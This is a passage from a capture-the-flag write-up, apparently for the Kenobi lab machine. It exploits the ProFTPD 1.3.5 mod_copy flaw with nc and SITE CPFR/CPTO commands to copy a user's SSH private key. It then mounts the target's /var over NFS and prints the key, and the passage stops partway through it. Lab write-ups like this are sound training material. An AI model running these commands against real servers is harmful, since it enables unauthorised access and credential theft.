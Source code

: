 Let us look for verunablities for this version: ```searchsploit proftpd 1.3.5```

??? output "nmap output"
    ```sh
    -------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                    |  Path
    -------------------------------------------------------------------------------------------------- ---------------------------------
    ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                         | linux/remote/37262.rb
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                               | linux/remote/36803.py
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                           | linux/remote/49908.py
    ProFTPd 1.3.5 - File Copy                                                                         | linux/remote/36742.txt
    -------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    Papers: No Results
    ```

Let's exploit ProFtpd's [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html) and copy Kenobi's private key using SITE CPFR and SITE CPTO commands:

```sh
nc 10.10.153.226 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.153.226]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Lets mount the /var/tmp directory to our machine

```sh
sudo mkdir /mnt/kenobiNFS
sudo mount 10.10.153.226:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
cat id_rsa
```

??? output "id_rsa content"
    ```sh
    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA4PeD0e0522UEj7xlrLmN68R6iSG3HMK/aTI812CTtzM9gnXs
    qpweZL+GJBB59bSG3RTPtirC3M9YNTDsuTvxw9Y/+NuUGJIq5laQZS5e2RaqI1nv
    U7fXEQlJrrlWfCy9VDTlgB/KRxKerqc42aU+/BrSyYqImpN6AgoNm/s/753DEPJt
    dwsr45KFJOhtaIPA4EoZAq8pKovdSFteeUHikosUQzgqvSCv1RH8ZYBTwslxSorW
    y3fXs5GwjitvRnQEVTO/GZomGV8UhjrT3TKbPhiwOy5YA484Lp3ES0uxKJEnKdSt
    otHFT4i1hXq6T0CvYoaEpL7zCq7udl7KcZ0zfwIDAQABAoIBAEDl5nc28kviVnCI
    ruQnG1P6eEb7HPIFFGbqgTa4u6RL+eCa2E1XgEUcIzxgLG6/R3CbwlgQ+entPssJ
    dCDztAkE06uc3JpCAHI2Yq1ttRr3ONm95hbGoBpgDYuEF/j2hx+1qsdNZHMgYfqM
    bxAKZaMgsdJGTqYZCUdxUv++eXFMDTTw/h2SCAuPE2Nb1f1537w/UQbB5HwZfVry
    tRHknh1hfcjh4ZD5x5Bta/THjjsZo1kb/UuX41TKDFE/6+Eq+G9AvWNC2LJ6My36
    YfeRs89A1Pc2XD08LoglPxzR7Hox36VOGD+95STWsBViMlk2lJ5IzU9XVIt3EnCl
    bUI7DNECgYEA8ZymxvRV7yvDHHLjw5Vj/puVIQnKtadmE9H9UtfGV8gI/NddE66e
    t8uIhiydcxE/u8DZd+mPt1RMU9GeUT5WxZ8MpO0UPVPIRiSBHnyu+0tolZSLqVul
    rwT/nMDCJGQNaSOb2kq+Y3DJBHhlOeTsxAi2YEwrK9hPFQ5btlQichMCgYEA7l0c
    dd1mwrjZ51lWWXvQzOH0PZH/diqXiTgwD6F1sUYPAc4qZ79blloeIhrVIj+isvtq
    mgG2GD0TWueNnddGafwIp3USIxZOcw+e5hHmxy0KHpqstbPZc99IUQ5UBQHZYCvl
    SR+ANdNuWpRTD6gWeVqNVni9wXjKhiKM17p3RmUCgYEAp6dwAvZg+wl+5irC6WCs
    dmw3WymUQ+DY8D/ybJ3Vv+vKcMhwicvNzvOo1JH433PEqd/0B0VGuIwCOtdl6DI9
    u/vVpkvsk3Gjsyh5gFI8iZuWAtWE5Av4OC5bwMXw8ZeLxr0y1JKw8ge9NSDl/Pph
